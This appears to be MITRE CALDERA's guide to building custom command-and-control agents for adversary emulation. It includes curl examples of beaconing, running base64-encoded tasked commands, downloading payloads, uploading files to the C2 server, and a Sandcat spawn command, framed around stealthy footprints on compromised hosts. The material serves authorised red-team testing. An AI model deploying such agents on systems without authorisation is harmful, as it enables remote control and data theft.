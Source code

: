 # How to Build Agents

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, Sandcat, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend Sandcat by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp, websocket, gist (via Github), and dns. 

For additional stealth, supporting agents can use communication tunnels to tunnel built-in contacts like HTTP, TCP, and UDP. For more information on C2 communication tunneling, see the [C2 tunneling section](C2-Tunneling.md).

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **paw**: The current unique identifier for the agent, either initially generated by the agent itself or provided by the C2 on initial beacon.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **ppid**: The process identifier of the agent's parent process
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file
* **host_ip_addrs**: A list of valid IPv4 addresses on the host
* **proxy_receivers**: a dict (key: string, value: list of strings) that maps a peer-to-peer proxy protocol name to a list of addresses that the agent is listening on for peer-to-peer client requests.
* **deadman_enabled**: a boolean that tells the C2 server whether or not this agent supports deadman abilities. If this value is not provided, the server assumes that the agent does not support deadman abilities.
* **upstream_dest**: The "next hop" upstream destination address (e.g. IP or FQDN) that the agent uses to
reach the C2 server. If the agent is using peer-to-peer communication to reach the C2, this value will contain
the peer address rather than the C2 address.

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable
* **uploads**: A list of file names that the agent must upload to the C2 server after running the command.

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"paw":"$paw","results":[{"id":$id, "output":$output, "stderr":$stderr, "status": $status, "pid":$pid}]}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output (or stdout) from running the instruction
* **stderr**: the base64 encoded error messages (or stderr) from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part 4

Inside each instruction, there is an optional **uploads** property that contains a list of filenames to upload to the C2 after running the instruction and submitting the execution results. To implement this, add a file upload capability to your agent. If using the HTTP contact, the file upload should hit the `/file/upload` upload endpoint of the server.

### Part #5

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 

## Lateral Movement Tracking

Additionally, you may want to take advantage of CALDERA's lateral movement tracking capabilities. CALDERA's current 
implementation for tracking lateral movement depends on passing the ID of the Link spawning the agent as 
an argument to the agent's spawn command and upon the agent's check in, for this Link ID to be returned as part of the
agent's profile. The following section explains how lateral movement tracking has been enabled for the default agent,
Sandcat.  

### Sandcat

An example Sandcat spawn command has been copied from the [Service Creation ability](https://github.com/mitre/stockpile/blob/master/data/abilities/execution/95727b87-175c-4a69-8c7a-a5d82746a753.yml)
and included below for reference:
```
C:\Users\Public\s4ndc4t.exe -server #{server} -originLinkID #{origin_link_id}
```
If the CALDERA server is running on `http://192.168.0.1:8888` and the ID of the Link with the spawn command is `cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81`,
the populated command will appear as:
```
C:\Users\Public\s4ndc4t.exe -server http://192.168.0.1:8888 -originLinkID cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81
```
The Sandcat agent stores the value of this global variable in its profile, which is then returned to the CALDERA server
upon first check-in as a key\value pair `origin_link_id : cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81` in the JSON dictionary. The CALDERA server will 
automatically store this pair when creating the Agent object and use it when generating the Attack Path graph in the
Debrief plugin.

**NOTE: The `origin_link_id` key is optional and not required for the CALDERA server to register and use new agents as
 expected. It is only required to take advantage of the lateral movement tracking in the Debrief plugin.**  